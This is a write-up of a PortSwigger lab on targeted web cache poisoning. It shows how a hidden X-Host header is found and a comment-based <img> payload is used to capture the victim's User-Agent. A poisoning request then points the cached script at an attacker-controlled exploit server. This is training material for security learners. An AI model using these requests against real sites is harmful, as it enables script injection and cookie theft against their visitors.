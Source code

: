 
# Targeted web cache poisoning using an unknown header

This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/1.png)

---------------------------------------------

We get the “Vary” header in the response to “/post/comment?postId=2”: 



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/2.png)



There are 4 imported scripts, the only one containing the full url is tracking.js:





![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/3.png)
![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/4.png)



We will launch Param Miner as X-Forwarded-Host and X-Forwarded-Scheme headers do not seem to work:



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/5.png)



It detects two secret headers, Origin and X-Host:





![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/6.png)
![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/7.png)



If we send these headers with the exploit server hostname, we see the hostname gets reflected (the one working is X-Host):



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/8.png)



We will create the Javascript payload in the exploit server:



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/9.png)



Then send the request to Intruder and use the list of User-Agents:





![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/10.png)
![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/11.png)


However this approach provokes the server to go down:



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/12.png)


We will create a comment with this payload:

```
<img src="https://exploit-0acc00f704141c10817b1b2e011000d5.exploit-server.net/foo" />
```

We get the User-Agent “Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36”:



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/13.png)

And finally:

```
GET / HTTP/1.1
...
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
X-Host: exploit-0acc00f704141c10817b1b2e011000d5.exploit-server.net
...
```



![img](images/Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/14.png)